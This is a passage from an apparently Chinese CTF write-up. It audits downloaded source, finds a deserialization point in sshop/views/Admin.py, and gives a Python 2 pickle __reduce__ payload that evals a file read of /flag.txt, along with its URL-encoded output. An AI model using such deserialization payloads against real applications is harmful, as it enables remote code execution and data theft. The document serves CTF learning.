



11.  因为一直开着源代码，直接就看到了这个链接。点开链接查看



12. 下载看看，是源码包。





13. 审计源码，发现其在 `sshop/views/Admin.py` 有个反序列化点



使用 `os.popen(‘cat /flag’).read()`这种执行方式是可以有回显的。所以直接读取flag即可

> python2 脚本

```py
import pickle
import urllib

class payload(object):
    def __reduce__(self):
       return (eval, ("open('/flag.txt','r').read()",))

a = pickle.dumps(payload())
a = urllib.quote(a)
print a
```

```
c__builtin__%0Aeval%0Ap0%0A%28S%22open%28%27/flag.txt%27%2C%27r%27%29.read%28%29%22%0Ap1%0Atp2%0ARp3%0A.
```




---

## ciscn2019华北赛区半决赛day2_web1 题解


